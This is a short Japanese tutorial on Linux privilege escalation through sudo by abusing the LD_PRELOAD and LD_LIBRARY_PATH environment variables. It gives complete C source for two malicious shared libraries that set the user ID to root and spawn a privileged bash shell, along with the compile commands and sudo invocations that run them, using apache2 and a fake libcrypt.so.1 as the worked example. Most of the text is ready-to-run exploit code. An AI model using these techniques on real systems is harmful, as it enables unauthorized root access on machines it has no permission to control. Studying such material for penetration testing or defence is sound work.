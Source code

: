 下記のコードを使用して共有オブジェクトを作成する。
```
preload.c:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
```
LD_PRELOAD環境変数を新しい共有オブジェクトのフルパスに設定しながら、sudo(sudo -lの実行時にリストされる)を介して実行が許可されているプログラムを実行します。
```
sudo LD_PRELOAD=/tmp/preload.so <sudo -lでリストされたプログラム>
```
これにより、rootシェルを取得できる。  
これを利用できるパターンとして、GTFOBinsには記載されていないプログラムがsudo -lにリストしている場合である。  
例えば、apache2の場合はGTFOBinsには記載されていない。  
まずは、apache2プログラムファイルに対してlddコマンドを実行して、プログラムで使用されている共有ライブラリを確認する。
```
ldd /usr/sbin/apache2
      linux-vdso.so.1 =>  (0x00007fff3c8e7000)
      libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fd2f55c2000)
      libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007fd2f539e000)
      libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007fd2f5164000)
      libpthread.so.0 => /lib/libpthread.so.0 (0x00007fd2f4f48000)
      libc.so.6 => /lib/libc.so.6 (0x00007fd2f4bdc000)
      libuuid.so.1 => /lib/libuuid.so.1 (0x00007fd2f49d7000)
      librt.so.1 => /lib/librt.so.1 (0x00007fd2f47cf000)
      libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007fd2f4598000)
      libdl.so.2 => /lib/libdl.so.2 (0x00007fd2f4393000)
      libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007fd2f416b000)
      /lib64/ld-linux-x86-64.so.2 (0x00007fd2f5a7f000)
```
下記のコードを使用して、リストされているライブラリの1つ(ここではlibcrypt.so.1を選択)と同じ名前の共有オブジェクトを作成する。
```
library_path.c:

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/library_path.c
```
最後に、LD_LIBRARY_PATH環境変数を/tmp(コンパイルされた共有オブジェクトを出力する場所)に設定しながら、sudoを使用してapache2を実行する。
```
sudo LD_LIBRARY_PATH=/tmp apache2
```
これにより、GTFOBinsに記載がないプログラムでもsudo -lによってリストされていた場合にrootシェルを取得することができる。

